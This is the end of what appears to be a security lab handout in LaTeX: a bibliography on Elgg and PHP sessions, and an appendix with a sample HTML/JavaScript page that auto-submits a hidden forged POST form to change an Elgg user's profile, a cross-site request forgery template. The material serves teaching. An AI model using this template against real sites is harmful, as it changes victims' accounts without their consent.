 \begin{thebibliography}{10}


{\tt Elgg} documentation:
\newblock \url{http://docs.elgg.org/wiki/Main_Page}.

JavaScript String Operations.
\newblock \url{http://www.hunlock.com/blogs/The_Complete_Javascript_Strings_Reference}.	 

Session Security {\tt Elgg}.
\newblock \url{http://docs.elgg.org/wiki/Session_security}.

Forms + Actions {\tt Elgg}
\newblock \url{http://learn.elgg.org/en/latest/guides/actions.html}.

PHP:Session\_id - Manual:
\newblock \url{http://www.php.net//manual/en/function.session-id.php}.


\end{thebibliography}


\appendix

\begin{figure}
{\footnotesize
\begin{Verbatim}[frame=single]
<html><body><h1>
  This page forges an HTTP POST request.
  </h1>
  <script type="text/javascript">

 function post(url,fields)
 {
    //create a <form> element.
    var p = document.createElement("form");
	 
    //construct the form
    p.action = url;
    p.innerHTML = fields;
    p.target = "_self";
    p.method = "post";
	 
    //append the form to the current page.
    document.body.appendChild(p);
	 
   //submit the form
    p.submit();
 }

 function csrf_hack()
 {				
    var fields;

    // The following are form entries that need to be filled out
    // by attackers. The entries are made hidden, so the victim
    // won't be able to see them.
    fields += "<input type='hidden' name='name' value='elgguser1'>";
    fields += "<input type='hidden' name='description' value=''>";
    fields += "<input type='hidden' name='accesslevel[description]' value='2'>";
    fields += "<input type='hidden' name='briefdescription' value=''>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
    fields += "<input type='hidden' name='location' value=''>";
    fields += "<input type='hidden' name='accesslevel[location]' value='2'>";				
    fields += "<input type='hidden' name='guid' value='39'>";
    var url = "http://www.example.com";

    post(url,fields);
 }
	
 // invoke csrf_hack() after the page is loaded.
 window.onload = function() { csrf_hack();}
  </script>
 </body></html>
\end{Verbatim}
}
\caption{Sample JavaScript program}
\label{fig:jsscript}
\end{figure}






